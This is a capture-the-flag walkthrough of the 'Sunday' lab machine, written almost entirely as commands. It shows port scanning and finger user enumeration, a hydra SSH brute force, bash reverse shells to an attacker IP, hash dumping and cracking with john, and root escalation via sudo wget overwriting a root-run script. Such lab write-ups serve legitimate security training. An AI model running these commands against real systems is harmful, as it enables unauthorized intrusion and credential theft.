

# Sunday

# Scanning

```bash
masscan sudo masscan -e tun0 --open -p 1-65535 --max-rate 1000 10.10.10.76

nmap -n -Pn -sC -sV -p 79,111,22022,34825,35830 10.10.10.76 -oN targeted
```


# 79

```bash
finger-user-enum.pl -U /usr/share/SecLists/Usernames/Names/names.txt -t 10.10.10.76
```


output:

sammy@10.10.10.76: sammy			console
sunny@10.10.10.76: sunny				pts/3

# 22022 ssh

## hydra
```bash
hydra -L users.txt -P /usr/share/SecLists/Passwords/probable-v2-top1575.txt -t 64 -s 22022 10.10.10.76 ssh
```

> login: sunny   password: sunday


## ssh
```bash
ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
```


too slow so... I used a reverse shell
```bash
ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1 -t 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'
```

cat /backup/shadow.backup

```txt
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

## john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


cooldude!

```bash
ssh sammy@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1 -t 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'
```

### attacker machine
we create a script in bash like this to make a reverse shell in root back to our machine
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.14/8888 0>&1
```
and start an http server in python
```bash
sudo python3 -m http.server 80 
```

### victim machine in user sammy
```bash
sudo wget http://10.10.14.14/shell.sh -O /root/troll
```
### now in the user sunny
```bash
sudo /root/troll
```

## flags
```bash
/export/home/sammy/Desktop/user.txt
/root/root.txt
```
